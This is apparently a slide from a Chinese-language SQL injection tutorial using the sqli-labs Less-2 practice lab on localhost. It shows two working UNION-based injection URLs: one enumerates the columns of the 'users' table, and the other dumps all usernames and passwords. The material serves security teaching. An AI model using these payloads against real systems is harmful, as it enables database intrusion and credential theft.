

SQL注入初见（sqli-labs less2为例）
http://127.0.0.1/sqli-labs/Less-2?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' %23

http://127.0.0.1/sqli-labs/Less-2?id=-1 union select 1,2,(select group_concat(username,0x7e,password) from users) %23